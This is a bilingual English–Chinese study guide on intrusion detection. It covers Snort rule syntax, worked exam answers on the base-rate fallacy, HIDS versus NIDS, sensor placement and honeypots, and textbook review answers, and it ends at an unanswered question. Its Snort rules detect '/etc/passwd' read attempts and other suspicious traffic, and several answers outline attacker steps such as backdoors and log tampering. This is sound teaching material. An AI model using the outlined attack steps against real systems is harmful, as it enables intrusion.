| Header首部 | Alert on TCP packets from outside, any port, to the home network, port 80 (Web)对来自外部、任意端口、发往内部网络 80 端口（Web）的 TCP 包发出告警 |
flow:to_server,established |
Only client-to-server packets of established connections仅限已建立连接中从客户端到服务器的包 |
content:"/etc/passwd" |
The payload must contain this text载荷必须包含此文本 |
nocase |
The search ignores upper and lower case搜索忽略大小写 |
classtype |
Attack category: web application attack攻击类别：Web 应用攻击 |
sid:1000001; rev:1; |
The unique rule number and its revision规则的唯一编号及其修订版本 |
How to write a rule by hand. 1. Choose the action. 2. Name the protocol. 3. Write the source address and port, then the arrow, then the destination address and port. 4. Open the parentheses. 5. Add msg, then the tests (content, dsize, flags). 6. End every option with a semicolon and close the parenthesis.手工编写规则的方法。 1. 选择动作。 2. 指定协议。 3. 写出源地址和端口，接着是箭头，然后是目的地址和端口。 4. 打开括号。 5. 添加 msg，然后是检测条件（content、dsize、flags）。 6. 每个选项以分号结尾，并关闭括号。
Practice练习
Q1. (Interpret) Explain this rule, and say what it means if the Snort sensor is inside rather than outside the external firewall.Q1.（解读）解释这条规则，并说明若 Snort 传感器位于外部防火墙之内而非之外，其含义是什么。
alert tcp $EXTERNAL_NET any -> $SQL_SERVERS $ORACLE_PORTS (msg:"ORACLE create database attempt"; flow:to_server,established; content:"create database"; nocase; classtype:protocol-command-decode;)
Answer
It alerts when a client-to-server packet of an established TCP connection, sent from outside the home network from any port to the Oracle ports of the SQL servers, contains "create database" in any case: a remote attempt to create a database. Outside the firewall the sensor sees every attempt, including those the firewall will drop, so the alerts measure attack volume and are noisy. Inside the firewall a match means the packet got through, so either the firewall policy allows outside traffic to the Oracle ports or the firewall failed; this is more significant and deserves higher priority.当已建立的 TCP 连接中，由内部网络之外、从任意端口发往 SQL 服务器 Oracle 端口的客户端到服务器数据包包含大小写不限的“create database”时，该规则发出告警：这是远程创建数据库的尝试。在防火墙之外，传感器能看到每一次尝试，包括防火墙将丢弃的那些，因此告警衡量的是攻击量，且噪声较大。在防火墙之内，一次匹配意味着该数据包已经通过，因此要么是防火墙策略允许外部流量访问 Oracle 端口，要么是防火墙失效；这更为重要，应给予更高优先级。
Q2. (Write a rule) Write a rule that logs, without alerting, every TCP packet from any host to the FTP server 192.168.1.10, port 21, whose payload starts with "USER anonymous" in any case.Q2.（编写规则）编写一条规则：记录（但不告警）从任意主机发往 FTP 服务器 192.168.1.10 端口 21、且有效载荷以大小写不限的“USER anonymous”开头的每个 TCP 数据包。
Answer
log tcp any any -> 192.168.1.10 21 (msg:"FTP anonymous login"; content:"USER anonymous"; nocase; depth:14;). The action log records the packet without an alert; the two any fields are source address and port; "USER anonymous" has 14 characters, so depth:14 forces the match at the very start of the payload; nocase makes the search case-insensitive.log tcp any any -> 192.168.1.10 21 (msg:"FTP anonymous login"; content:"USER anonymous"; nocase; depth:14;)。动作 log 记录数据包而不告警；两个 any 字段分别是源地址和源端口；“USER anonymous”共 14 个字符，因此 depth:14 使匹配必须位于有效载荷的最开头；nocase 使搜索不区分大小写。
Q3. (Explain) Why can drop, reject and sdrop be used only when Snort runs inline, and how do they differ?Q3.（解释）为什么 drop、reject 和 sdrop 只能在 Snort 以串联方式运行时使用？它们之间有何区别？
Answer
They stop a packet, which requires being in the traffic path; a passive sensor sees only a copy. drop discards and logs the packet; reject also sends a TCP reset (for TCP) or an ICMP port unreachable message (for UDP); sdrop discards silently, without logging.它们会阻断数据包，这要求位于流量路径之中；被动传感器只能看到副本。drop 丢弃并记录数据包；reject 还会发送 TCP 复位（对 TCP）或 ICMP 端口不可达消息（对 UDP）；sdrop 静默丢弃，不作记录。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Insider (Anderson)内部人员（Anderson） | A legitimate user acting without authority. Differs little from normal behaviour, so rules are needed to find him合法用户未经授权而行动。其行为与正常行为差别很小，所以需要规则才能把他找出来 |
| Desired IDS properties理想 IDS 的特性 | Runs with little supervision, fault tolerant, resists subversion, low overhead, adapts, scales, degrades gracefully运行时只需少量监督，具备容错能力，能抵抗被篡改，开销低，能自适应，可扩展，并且能优雅降级 |
| Precision and ROC精确率与 ROC | DR is recall, FAR the false-positive rate, P(I given A) the precision. The ROC curve plots DR against FARDR 是召回率，FAR 是误报率，P(I given A) 是精确率。ROC 曲线以 DR 对 FAR 作图。 |
| IDMEF, IDXP | IETF data model (XML) and protocol for exchanging IDS events, with authentication, integrity and confidentialityIETF 的数据模型（XML）和交换 IDS 事件的协议，具备认证、完整性和机密性 |
| SIEM | Security information and event management: software that imports data from many sources安全信息与事件管理：从多个来源导入数据的软件 |
| DDI and PEP eventsDDI 和 PEP 事件 | Distributed detection and inference conclusions and events of policy enforcement points分布式检测与推理的结论，以及策略执行点的事件 |
| WIDS | A NIDS for wireless traffic only只针对无线流量的 NIDS |
| Alert log fields告警日志字段 | Time, session ID, alert type, rating, protocols, addresses, ports, payload时间、会话 ID、告警类型、评级、协议、地址、端口、载荷 |
| Snort lightweightSnort 轻量版 | Easy to deploy, small memory and processor use易于部署，内存和处理器占用小 |
Exam-style questions考试题型练习
Q1. (Calculation and discussion, 12 marks) A network IDS inspects 2,000,000 events per day, of which 20 are real intrusions. It detects 95% of the intrusions and wrongly flags 0.5% of the normal events. (a) Find the expected numbers of true and false alarms per day (4). (b) What fraction of the alarms are real? Name the effect (3). (c) What false alarm rate would make half of the alarms real? (3) (d) Suggest two ways to raise the fraction of real alarms (2).Q1.（计算与讨论，12 分）一个网络 IDS 每天检查 2,000,000 个事件，其中 20 个是真实入侵。它检测出 95% 的入侵，并错误地标记了 0.5% 的正常事件。（a）求每天真告警与误报的期望数目。（4 分）（b）告警中真告警所占的比例是多少？指出所产生的效应。（3 分）（c）误报率为多少时，告警中有一半为真？（3 分）（d）提出两种提高真告警比例的方法。（2 分）
Answer
(a) True alarms: \(0.95\times20=19\). Normal events: \(1{,}999{,}980\), so false alarms: \(0.005\times1{,}999{,}980\approx10{,}000\). Total about 10,019 alarms per day.（a）真告警：\(0.95\times20=19\)。正常事件：\(1{,}999{,}980\)，因此误报：\(0.005\times1{,}999{,}980\approx10{,}000\)。每天告警总数约为 10,019。
(b) \(P(I\mid A)=19/10{,}019\approx0.19\%\) (the Bayes formula with \(p=10^{-5}\) gives the same). More than 99.8% of the alarms are false, over 500 false alarms per true one. This is the base-rate fallacy: intrusions are so rare that false alarms from the normal events swamp the true alarms.（b）\(P(I\mid A)=19/10{,}019\approx0.19\%\)（用 \(p=10^{-5}\) 代入贝叶斯公式得到相同结果）。超过 99.8% 的告警为误报，即每个真告警对应 500 多个误报。这就是基率谬误：入侵非常罕见，以至于正常事件产生的误报淹没了真告警。
(c) \(\text{FAR}\le\text{DR}\cdot p/(1-p)=0.95\times10^{-5}/(1-10^{-5})\approx9.5\times10^{-6}\), about 19 false alarms per day, equal to the 19 true alarms.（c）\(\text{FAR}\le\text{DR}\cdot p/(1-p)=0.95\times10^{-5}/(1-10^{-5})\approx9.5\times10^{-6}\)，即每天约 19 个误报，与 19 个真告警相等。
(d) Raise \(p\) by monitoring only critical assets or protocols (sensor locations 3 and 4 with tuned rules): at \(p=10^{-4}\) the fraction of real alarms is about 1.9%. Or correlate several independent sensors in a hybrid IDS so that only corroborated alerts are raised, which cuts FAR sharply.（d）通过只监测关键资产或协议（传感器位于位置 3 和 4，并使用经过调优的规则）来提高 \(p\)：在 \(p=10^{-4}\) 时，真告警比例约为 1.9%。或者，在混合式 IDS 中关联多个独立传感器，使仅经过相互印证的告警才被发出，这将大幅降低 FAR。
思路：先数真/假告警，再用贝叶斯；FAR 必须与基率同一量级。
Q2. (Anomaly versus signature, 12 marks) (a) Define anomaly detection and signature detection and state what each needs before it can run (4). (b) Name the approach that detects each case and justify: (i) a zero-day exploit; (ii) a known worm with a fixed payload; (iii) an authorized user who copies thousands of files at 3 a.m. (3) (c) Give two advantages and two disadvantages of each approach (4). (d) Which is more widely deployed, and why? (1)Q2.（异常检测与特征检测，12 分）（a）定义异常检测和特征检测，并说明各自运行前需要什么。（4 分）（b）指出能够检测以下各情形的方法并说明理由：（i）零日漏洞利用；（ii）载荷固定的已知蠕虫；（iii）一名授权用户凌晨 3 点复制数千个文件。（3 分）（c）给出每种方法的两个优点和两个缺点。（4 分）（d）两者中哪一种部署更为广泛？为什么？（1 分）
Answer
(a) Anomaly detection builds a model of legitimate behaviour from normal operation (training phase) and flags deviations in the detection phase; it needs training data of normal behaviour. Signature (misuse) detection compares activity with known malicious patterns (signatures) or rules (heuristics); it needs a maintained database of signatures and rules.（a）异常检测根据正常运行建立合法行为模型（训练阶段），并在检测阶段标记偏离；它需要正常行为的训练数据。特征（误用）检测将活动与已知恶意模式（特征）或规则（启发式）进行比较；它需要一个持续维护的特征与规则数据库。
(b) (i) Anomaly: no signature exists, so only a deviation such as an unusual system call sequence or traffic pattern reveals it. (ii) Signature: the fixed pattern matches exactly and cheaply. (iii) Anomaly: the user's profile (files accessed, time of day) is violated, whereas a signature has nothing to match.（b）（i）异常检测：不存在特征，因此只有异常的系统调用序列或流量模式等偏离现象才能将其揭示。（ii）特征：固定模式可以精确、低成本地匹配。（iii）异常检测：用户的画像（访问的文件、访问时间）被打破，而特征则没有可供匹配的内容。
(c) Anomaly: finds unknown attacks; adapts to the monitored system. But false alarm rate is high (base-rate fallacy) and training is costly and needs legitimate data. Signature: cheap and accurate on known attacks; widely accepted. But it misses zero-day attacks and signatures need constant updating.（c）异常检测：能发现未知攻击，并能适应被监测的系统。但误报率高（基率谬误所致），且训练成本高，还需要合法数据。特征：对已知攻击成本低且准确，被广泛接受。但它会漏掉零日攻击，且特征需要不断更新。
(d) Signature and heuristic detection (anti-virus, Snort rules) is more widely deployed because it is cheaper and has fewer false alarms.（d）特征与启发式检测（杀毒软件、Snort 规则）部署得更为广泛，因为它成本更低，误报也更少。
Q3. (HIDS, NIDS and sensors, 12 marks) A company has an external firewall, a DMZ with Web and mail servers, an internal backbone with database servers, and a finance LAN. (a) Compare HIDS and NIDS (4). (b) Explain inline and passive sensors and why the monitoring NIC of a passive sensor has no IP address (3). (c) Propose four NIDS sensor locations with one benefit each (4). (d) Why is a NIDS alone not enough to protect the Web server? (1)Q3.（HIDS、NIDS 与传感器，12 分）某公司设有外部防火墙、包含 Web 服务器和邮件服务器的 DMZ、包含数据库服务器的内部骨干网，以及一个财务局域网。（a）比较 HIDS 与 NIDS。（4 分）（b）解释串联传感器与被动传感器，并说明为何被动传感器的监测网卡没有 IP 地址。（3 分）（c）提出四个 NIDS 传感器位置，并各给出一项益处。（4 分）（d）为什么仅靠 NIDS 不足以保护 Web 服务器？（1 分）
Answer
(a) A HIDS monitors one host (system calls, audit records, file checksums, registry): it sees external and internal intrusions and process detail, but covers only that host and uses its resources. A NIDS monitors packets at network, transport and application level at chosen points: one sensor covers many hosts without load on them, but it is blind to encrypted payloads and to activity inside a host.（a）HIDS 监测单台主机（系统调用、审计记录、文件校验和、注册表）：它能看到外部和内部入侵以及进程细节，但只覆盖该主机，并占用其资源。NIDS 在选定位置监测网络层、传输层和应用层的数据包：一个传感器即可覆盖众多主机且不占用其资源，但它无法看到加密的有效载荷，也看不到主机内部的活动。
(b) An inline sensor sits in the traffic path: it can block attacks (prevention) but adds delay. A passive sensor reads a copy of the traffic from a tap and adds no delay. Its monitoring NIC has no IP address and no protocol interaction, so it only listens and cannot be addressed or attacked from the monitored network; a second NIC with an IP address talks to the management server.（b）串联传感器位于流量路径之中：它能阻断攻击（防御），但会增加延迟。被动传感器从分接器读取流量副本，不增加延迟。其监测网卡没有 IP 地址，也不与协议交互，因此只能监听，无法被所监测的网络寻址或攻击；另一块带 IP 地址的网卡则与管理服务器通信。
(c) Just inside the external firewall: sees attacks that passed it and shows firewall problems. Outside it: records all attacks. On the backbone: sees internal and external attacks and can be tuned. In front of the finance LAN: protects the most valuable assets with limited resources.（c）外部防火墙之内：能看到穿过防火墙的攻击，并暴露防火墙的问题。防火墙之外：记录全部攻击。骨干网上：能看到内部与外部攻击，并可调优。财务局域网前端：以有限的资源保护最有价值的资产。
(d) Encrypted (HTTPS) traffic hides the payload from the NIDS, and a NIDS does not see what happens inside the host; a HIDS on the server sees decrypted requests and local activity.（d）加密（HTTPS）流量会使有效载荷对 NIDS 不可见，且 NIDS 看不到主机内部发生的事情；而服务器上的 HIDS 能看到解密后的请求以及本地活动。
Q4. (Snort, 12 marks) (a) Name the four components of Snort, what each does, and its two modes of operation (4). (b) Explain every element of the rule (5):Q4.（Snort，12 分）（a）列出 Snort 的四个组件，说明每个组件的作用，以及其两种运行模式。（4 分）（b）解释规则的每个元素。（5 分）
alert tcp $EXTERNAL_NET any -> $HOME_NET 80 (msg:"WEB-ATTACK /etc/passwd"; flow:to_server,established; content:"/etc/passwd"; nocase; classtype:web-application-attack; sid:1000001; rev:1;)
(c) Write a rule that alerts on any TCP packet from outside to the mail server 10.0.0.25, port 25, whose payload exceeds 1,000 bytes (2). (d) Which action drops a packet silently, and when is it available? (1)（c）编写一条规则：对从外部发往邮件服务器 10.0.0.25 端口 25、且有效载荷超过 1,000 字节的任意 TCP 数据包发出告警。（2 分）（d）哪个动作会静默丢弃数据包，它在什么情况下可用？（1 分）
Answer
(a) Packet decoder: isolates the protocol headers of each captured packet. Detection engine: checks each packet against the rules; the first match triggers the rule's action; no match, the packet is discarded. Logger: stores matching packets in readable or binary form. Alerter: sends notifications to a file, a UNIX socket or a management machine. Modes: passive (off the traffic path) or inline (traffic passes through it, so it can also prevent intrusions).（a）数据包解码器：分离每个捕获数据包的协议首部。检测引擎：将每个数据包与规则进行检查；第一条匹配的规则触发其动作；若无任何匹配，则丢弃该数据包。日志记录器：以可读或二进制形式存储匹配的数据包。告警器：将通知发送到文件、UNIX 套接字或管理机器。运行模式：被动（位于流量路径之外）或串联（所有流量均经过它，因此它还能阻止入侵）。
(b) Header: alert is the action; tcp the protocol; $EXTERNAL_NET any the source addresses (a predefined variable) and any source port; -> one direction; $HOME_NET 80 the destination addresses and port 80. Options: msg is the alert text; flow:to_server,established limits matching to client-to-server packets of established connections; content:"/etc/passwd" requires that string in the payload; nocase makes the search case-insensitive; classtype gives the attack category; sid and rev are the unique rule number and revision. The rule flags an external attempt to read /etc/passwd through a Web server.（b）首部：alert 为动作；tcp 为协议；$EXTERNAL_NET any 为源地址（预定义变量）及任意源端口；-> 为单向；$HOME_NET 80 为目的地址及端口 80。选项：msg 为告警文本；flow:to_server,established 将匹配限制于已建立连接中由客户端发往服务器的数据包；content:"/etc/passwd" 要求有效载荷中包含该字符串；nocase 使搜索不区分大小写；classtype 给出攻击类别；sid 与 rev 为唯一的规则编号与修订版本。该规则标记通过 Web 服务器尝试读取 /etc/passwd 的外部企图。
(c) alert tcp $EXTERNAL_NET any -> 10.0.0.25 25 (msg:"SMTP oversized packet"; dsize:>1000; classtype:attempted-admin; sid:1000002; rev:1;) (dsize tests the payload size).（c）alert tcp $EXTERNAL_NET any -> 10.0.0.25 25 (msg:"SMTP oversized packet"; dsize:>1000; classtype:attempted-admin; sid:1000002; rev:1;)（dsize 检验有效载荷大小）。
(d) sdrop, only in inline mode.（d）sdrop，且仅限串联模式。
Q5. (Honeypots, 10 marks) (a) Define honeypot and honeynet and give three goals (3). (b) Why is traffic to a honeypot suspicious, and what does outbound traffic from it imply? (2) (c) Compare low- and high-interaction honeypots (2). (d) Evaluate honeypot locations outside the external firewall, in the DMZ and inside the network, and recommend one for detecting insider attacks, naming its main risk (3).Q5.（蜜罐，10 分）（a）定义蜜罐和蜜网，并给出三个目标。（3 分）（b）为什么发往蜜罐的流量值得怀疑？蜜罐发出的出站流量意味着什么？（2 分）（c）比较低交互与高交互蜜罐。（2 分）（d）评估位于外部防火墙之外、DMZ 中以及网络内部的蜜罐位置，推荐一个用于检测内部攻击的位置，并指出其主要风险。（3 分）
Answer
(a) A honeypot is a decoy system with fabricated, apparently valuable information, instrumented with monitors and loggers; a honeynet is a decoy network that emulates an enterprise with real or simulated traffic and data. Goals: divert attackers from critical systems, collect information on their activity, keep them engaged long enough for administrators to respond.（a）蜜罐是一种诱饵系统，保存着虚构的、看似有价值的信息，并配有监测器和日志记录器；蜜网是一个模拟企业的诱饵网络，其中包含真实或模拟的流量与数据。目标：把攻击者从关键系统上引开，收集其活动信息，并使其保持参与足够长的时间，以便管理员作出响应。
(b) It has no production value, so no legitimate user should contact it: inbound traffic is probably a probe, scan or attack. Outbound connections started by the honeypot mean it is probably compromised.（b）蜜罐没有生产价值，因此不应有合法用户与之接触：入站流量很可能是探测、扫描或攻击。由蜜罐发起的出站连接则意味着它很可能已被攻陷。
(c) Low-interaction emulates services in software: cheap, low risk, reveals early attack steps. High-interaction is a real instrumented system: realistic and holds the attacker long, but needs many resources and, if compromised, can be used against other systems.（c）低交互蜜罐以软件模拟服务：成本低，风险低，能揭示早期攻击步骤。高交互蜜罐是真实的、带有监测设施的系统：逼真，能长时间留住攻击者，但需要大量资源；且一旦被攻陷，可能被用来攻击其他系统。
(d) Outside the firewall: no added risk and it absorbs attacks, but it cannot see internal attackers. In the DMZ: close to the public services, but other DMZ hosts must be protected and the firewall must open extra traffic. Inside: it catches internal attackers and reveals firewall misconfiguration, but if compromised it attacks internal systems, because the firewall does not block traffic to it. Recommend the internal location for insiders; its main risk is the foothold a compromise gives, so it must be isolated and monitored.（d）防火墙之外：不增加风险，并能吸收攻击，但无法看到内部攻击者。DMZ 中：靠近公共服务，但 DMZ 中的其他主机必须加以防范，且防火墙必须放行额外的流量。内部：能捕获内部攻击者，并暴露防火墙配置错误；但一旦被攻陷，会攻击内部系统，因为防火墙不阻断发往它的流量。针对内部攻击者，推荐内部位置；其主要风险在于被攻陷后所获得的立足点，因此必须加以隔离并进行监控。
Textbook exercises课后习题
Textbook exercises with answers: 25 questions教材习题及答案，共 25 题，点击展开
E1. (Review Question 8.1, Stallings & Brown) List and briefly define four classes of intruders.E1.（复习题 8.1，Stallings & Brown）列出并简要定义四类入侵者。
Answer
- Cyber criminals: individuals or organized groups seeking financial reward through identity theft, theft of financial credentials, data theft, ransoming data and corporate espionage.网络犯罪分子：通过身份盗窃、窃取金融凭证、盗取数据、勒索数据和企业间谍活动来谋求经济利益的个人或有组织团体。
- Activists (hacktivists): attackers with a social or political cause, who deface websites, run denial-of-service attacks or leak data. They are often of low skill.激进分子（黑客行动主义者）：出于社会或政治目的而攻击的人，他们篡改网站、发起拒绝服务攻击或泄露数据。他们的技术水平往往较低。
- State-sponsored attackers: groups working for a government for espionage or sabotage. Their long-running, covert campaigns are called advanced persistent threats (APT).国家支持的攻击者：受政府雇佣、从事间谍或破坏活动的团体。他们长期、隐蔽的行动被称为高级持续性威胁（APT）。
- Others: hackers with other motives, such as technical challenge or peer-group esteem (classic hackers) and hobbyists who use ready-made attack toolkits.其他：出于其他动机的黑客，例如追求技术挑战或同伴群体的认可（经典黑客），以及使用现成攻击工具包的爱好者。
The motive matters for defense because it determines the targets and the effort the attacker will spend.动机对防御很重要，因为它决定了攻击者的目标，以及他愿意投入的精力。
E2. (Review Question 8.2, Stallings & Brown) List and briefly describe the steps typically used by intruders when attacking a system.E2.（复习题 8.2，Stallings & Brown）列出并简要描述入侵者攻击系统时通常采用的步骤。
Answer
- Target acquisition and information gathering: identify and characterize the targets with public information and network exploration tools.目标获取与信息收集：利用公开信息和网络探测工具识别并刻画目标。
- Initial access: get into the system by exploiting a remote vulnerability, guessing weak credentials, installing malware by social engineering or drive-by download, or a supply-chain attack.初始访问：通过利用远程漏洞、猜测弱口令、借助社会工程学安装恶意软件（例如钓鱼邮件或驱动式下载），或实施供应链攻击进入系统。
- Privilege escalation: use a local vulnerability to gain higher privileges.权限提升：利用本地漏洞获取更高的权限。
- Information gathering or system exploit: access or modify information, or move to other systems, often with captured or guessed credentials.信息收集或系统利用：访问或修改信息，或者借助截获或猜测到的凭证转移到其他系统。
- Maintaining access: install backdoors or malware, or add covert credentials, so that access continues.维持访问：安装后门或恶意软件，或添加隐蔽账户，使访问持续下去。
- Covering tracks: edit or disable audit logs and use rootkits to hide files and code.掩盖痕迹：编辑或禁用审计日志，并使用 rootkit 隐藏文件和代码。
Each step leaves traces that an IDS can look for.每一步都会留下入侵检测系统可以查找的痕迹。
E3. (Review Question 8.3, Stallings & Brown) Provide an example of an activity that may occur in each of the attack steps used by an intruder.E3.（复习题 8.3，Stallings & Brown）为入侵者攻击步骤中的每一步各举一个可能发生的活动示例。
Answer
| Step步骤 | Example activity活动示例 |
|---|---|
| Target acquisition and information gathering目标获取与信息收集 | Reading the corporate website for staff and server details; DNS and WHOIS lookups; mapping open services with a port scanner such as Nmap阅读公司网站上的员工和服务器信息；进行 DNS 和 WHOIS 查询；用 Nmap 等端口扫描器绘制开放服务图 |
| Initial access初始访问 | Exploiting a vulnerable web content management system; guessing a weak password of a remote service; a phishing e-mail with a malicious attachment利用存在漏洞的网站内容管理系统；猜测远程服务的弱口令；发送带恶意附件的钓鱼邮件 |
| Privilege escalation权限提升 | Running a local exploit that turns a normal user into root运行本地漏洞利用程序，把普通用户变为 root |
| Information gathering or system exploit信息收集或系统利用 | Searching the file system for sensitive data; using captured credentials to log in to another server搜索文件系统中的敏感数据；使用截获的凭证登录另一台服务器 |
| Maintaining access维持访问 | Installing a backdoor or adding a hidden user account安装后门或添加隐藏用户账户 |
| Covering tracks掩盖痕迹 | Deleting or editing log entries; installing a rootkit that hides files and processes删除或编辑日志记录；安装隐藏文件和进程的 rootkit |
E4. (Review Question 8.4, Stallings & Brown) Define and briefly describe a supply-chain attack.E4.（复习题 8.4，Stallings & Brown）定义并简要描述供应链攻击。
Answer
In a supply-chain attack the attacker first compromises an organization that supplies key software or services to many customers, and then reaches those customers through the compromised software or service. A typical form is inserting a Trojan into an otherwise legitimate software package at its normal distribution point, for example at the vendor, at a third-party store, or by redirection.在供应链攻击中，攻击者先入侵一个向许多客户提供关键软件或服务的组织，然后通过被入侵的软件或服务到达这些客户。典型做法是在正常的分发环节（例如在供应商处、第三方商店，或通过重定向）向原本合法的软件包中植入木马。
In the 2020 to 2021 SolarWinds attack, the update mechanism of the Orion monitoring product was compromised and a backdoor was delivered to more than 18,000 customers, including government bodies. The attacks are indiscriminate, hard to prevent and detect, because they exploit the trust between vendor and customer and automatic updates, and the backdoor can be used by other attackers too.在 2020 至 2021 年的 SolarWinds 攻击中，Orion 监控产品的更新机制被入侵，一个后门被投递给超过 18,000 名客户，其中包括政府机构。这类攻击不加区分，难以预防和发现，因为它们利用了供应商与客户之间的信任以及自动更新，而且该后门也可能被其他攻击者利用。
E5. (Review Question 8.5, Stallings & Brown) Describe the three logical components of an IDS.E5.（复习题 8.5，Stallings & Brown）描述 IDS 的三个逻辑组件。
Answer
- Sensors collect data from any part of the system that may contain evidence of an intrusion: network packets, log files or system call traces. They forward the data to the analyzer.传感器从系统中任何可能包含入侵证据的部分收集数据：网络包、日志文件或系统调用轨迹。它们把数据转发给分析器。
- Analyzers receive data from one or more sensors (or other analyzers) and decide whether an intrusion has occurred. The output is an indication of intrusion, with supporting evidence and possibly advice on what to do.分析器接收来自一个或多个传感器（或其他分析器）的数据，判断是否发生了入侵。输出是入侵指示，附带支持证据，并可能给出处置建议。
- The user interface (console or manager) lets an administrator view the output and control the system.用户界面（控制台或管理器）让管理员查看输出并控制系统。
Data may also be kept in a storage component for later analysis. A simple IDS has one sensor and one analyzer; a distributed IDS has many sensors that feed a central analyzer.数据也可以保存在存储组件中，以便之后分析。简单的 IDS 有一个传感器和一个分析器；分布式 IDS 有许多传感器，它们把数据送到一个中心分析器。
E6. (Review Question 8.6, Stallings & Brown) Describe the differences between a host-based IDS and a network-based IDS. How can their advantages be combined into a single system?E6.（复习题 8.6，Stallings & Brown）描述基于主机的 IDS 与基于网络的 IDS 之间的区别。如何把两者的优点结合到单一系统中？
Answer
A host-based IDS (HIDS) monitors one host: process identifiers and their system calls, logs, file integrity. It can detect both external and internal intrusions and sees what is encrypted on the host, but it must be installed and maintained on each host and uses its resources.基于主机的 IDS（HIDS）监控一台主机：进程标识符及其系统调用、日志和文件完整性。它既能发现外部入侵，也能发现内部入侵，并且能看到主机上加密数据的内容，但它必须安装并维护在每台主机上，并占用主机资源。
A network-based IDS (NIDS) monitors traffic at selected points of the network, packet by packet, and analyzes network, transport and application protocols. One sensor covers many hosts without changing them, and it sees scans and attacks against many machines, but it is blind to encrypted payloads and to what happens on the host, and it mainly sees external attempts.基于网络的 IDS（NIDS）在网络的选定位置逐包监控流量，分析网络层、传输层和应用层协议。一个传感器就能覆盖许多主机，且无需改动这些主机，它能看到针对多台机器的扫描和攻击。但它看不到加密的载荷，也看不到主机上发生的事情，并且主要只能发现来自外部的尝试。
A distributed or hybrid IDS combines both: host and network sensors send their data to a central analyzer that correlates them, which gives better detection and a coordinated response.分布式或混合 IDS 把两者结合起来：主机传感器和网络传感器把数据送到中心分析器，由它进行关联分析，从而获得更好的检测效果和协同响应。
E7. (Review Question 8.7, Stallings & Brown) What are three benefits that can be provided by an IDS?E7.（复习题 8.7，Stallings & Brown）IDS 能提供哪三项好处？
Answer
- Quick detection: if an intrusion is found fast enough, the intruder can be identified and removed before damage is done or data are lost, and even a late detection reduces damage and speeds recovery.快速检测：如果能足够快地发现入侵，就能在造成损害或数据丢失之前识别并清除入侵者。即使发现较晚，也能减少损失，加快恢复。
- Deterrence: an effective IDS discourages intrusions, because attackers know they may be caught.威慑：有效的 IDS 会打消入侵的念头，因为攻击者知道自己可能被抓到。
- Information: it collects data about intrusion techniques that can be used to strengthen prevention measures.收集信息：它收集入侵技术的相关数据，可用来加强预防措施。
E8. (Review Question 8.8, Stallings & Brown) What is the difference between a false positive and a false negative in the context of an IDS?E8.（复习题 8.8，Stallings & Brown）在 IDS 的语境中，误报和漏报有什么区别？
Answer
A false positive is a false alarm: the IDS reports an intrusion although the activity is benign, for example an authorized user flagged as an intruder. A false negative is a missed intrusion: the IDS raises no alarm although an attack is happening.误报是虚警：IDS 报告了入侵，但该活动其实是良性的，例如把一个授权用户误判为入侵者。漏报是漏掉的入侵：攻击正在发生，IDS 却没有发出警报。
The two trade off against each other. A loose interpretation of intruder behavior catches more intruders but gives more false positives. A tight one limits false positives but gives more false negatives. The detection rate is detected attacks divided by all attacks; the false alarm rate is the normal usage that is wrongly classified divided by all normal usage.两者相互制约。对入侵者行为作宽松的解释，能抓住更多入侵者，但误报也更多；作严格的解释，能减少误报，但漏报也更多。检测率是被检测到的攻击数除以全部攻击数；误报率是被错误判为异常的正常使用数除以全部正常使用数。
E9. (Review Question 8.9, Stallings & Brown) Explain the base-rate fallacy.E9.（复习题 8.9，Stallings & Brown）解释基率谬误。
Answer
The base-rate fallacy is ignoring how rare intrusions are when judging an alarm. If real intrusions are very rare compared with legitimate uses, then even a detector with a high detection rate and a small false alarm rate produces mostly false alarms, because the many normal events produce more false alarms than the few attacks produce true ones.基率谬误是在判断一条告警时忽略了入侵有多罕见。如果真正的入侵与合法使用相比非常罕见，那么即使检测器的检测率高、误报率低，产生的大部分也会是误报，因为大量正常事件产生的误报，比少量攻击产生的正确告警还要多。
Example: with 1 intruder per 1000 authorized users, a test that flags 50% of intruders and 1% of authorized users gives 0.5 true and 10 false alarms per 1000 users, so about 95% of alarms are false. Therefore the test must be extremely discriminating, or the administrators will ignore the alarms.例如：每 1000 名授权用户中有 1 名入侵者，一个测试能标出 50% 的入侵者和 1% 的授权用户，那么每 1000 名用户会得到 0.5 次正确告警和 10 次误报，因此约 95% 的告警是误报。所以测试必须有极强的区分能力，否则管理员会忽略这些告警。
思路：入侵太罕见时，即使误报率很低，大多数告警仍是误报。
E10. (Review Question 8.10, Stallings & Brown) List some desirable characteristics of an IDS.E10.（复习题 8.10，Stallings & Brown）列出 IDS 的一些理想特性。
Answer
An IDS should:IDS 应当：
- run continually with minimal human supervision;在很少人工监督的情况下持续运行；
- be fault tolerant and recover from crashes and restarts;具备容错能力，能从崩溃和重启中恢复；
- resist subversion, which means it monitors itself and detects modification by an attacker;抵抗被篡改，也就是说它要监控自身，并发现攻击者对它的修改；
- impose minimal overhead on the system where it runs;对所在系统的开销降到最低；
- be configurable to the security policy of the monitored system;能根据被监控系统的安全策略进行配置；
- adapt to changes in system and user behavior over time;能随着系统和用户行为的变化而自适应；
- scale to monitor many hosts;能扩展到监控许多主机；
- degrade gracefully: if some components fail, the rest are affected as little as possible;能优雅降级：如果某些组件失效，其余部分受到的影响应尽可能小；
- allow dynamic reconfiguration without a restart.允许不重启即可动态重新配置。
E11. (Review Question 8.11, Stallings & Brown) What is the difference between anomaly detection and signature or heuristic intrusion detection?E11.（复习题 8.11，Stallings & Brown）异常检测与特征码或启发式入侵检测有什么区别？
Answer
Anomaly detection first builds a model of normal behavior of legitimate users from data collected in a training phase. In the detection phase, behavior that deviates from the model is classed as an intrusion. It defines what is normal. It can detect unknown (zero-day) attacks, but it is prone to false positives and needs training.异常检测先在训练阶段，从收集到的数据中建立合法用户正常行为的模型。在检测阶段，偏离该模型的行为被判定为入侵。它定义的是什么是正常的。它能发现未知的（零日）攻击，但容易产生误报，并且需要训练。
Signature or heuristic detection (misuse detection) compares current activity with a set of known malicious patterns (signatures) or attack rules (heuristics). It defines what is malicious. It identifies known attacks quickly and with few false alarms, but cannot detect new attacks for which no pattern or rule exists.特征码或启发式检测（误用检测）把当前活动与一组已知的恶意模式（特征码）或攻击规则（启发式规则）进行比较。它定义的是什么是恶意的。它能快速识别已知攻击，误报很少，但对于没有对应模式或规则的新攻击无能为力。
E12. (Review Question 8.12, Stallings & Brown) List and briefly define the three broad categories of classification approaches used by anomaly detection systems.E12.（复习题 8.12，Stallings & Brown）列出并简要定义异常检测系统所用分类方法的三大类别。
Answer
